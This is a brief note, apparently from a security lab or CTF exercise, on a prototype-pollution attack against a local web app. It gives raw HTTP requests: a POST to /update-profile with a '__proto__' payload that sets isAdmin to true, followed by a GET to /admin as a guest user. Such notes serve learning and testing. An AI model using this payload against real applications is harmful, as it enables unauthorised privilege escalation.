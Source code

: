 Prototype Pollution

https://chatgpt.com/c/67b33e1d-ff00-8007-97a3-313a08ec0e6a


POST /update-profile HTTP/1.1
Host: localhost:3000
Cookie: username=guest
Content-Type: application/json
Content-Length: 42

{
    "__proto__": { "isAdmin": true }
}


then:

GET /admin HTTP/1.1
Cookie: username=guest
Host: localhost:3000

normal request to update profile would be:

POST /update-profile HTTP/1.1
Host: localhost:3000
Cookie: username=guest
Content-Type: application/json
Content-Length: 88

{"password": "newPassword", "role": "admin", "profile": "Updated profile descriptioasd"}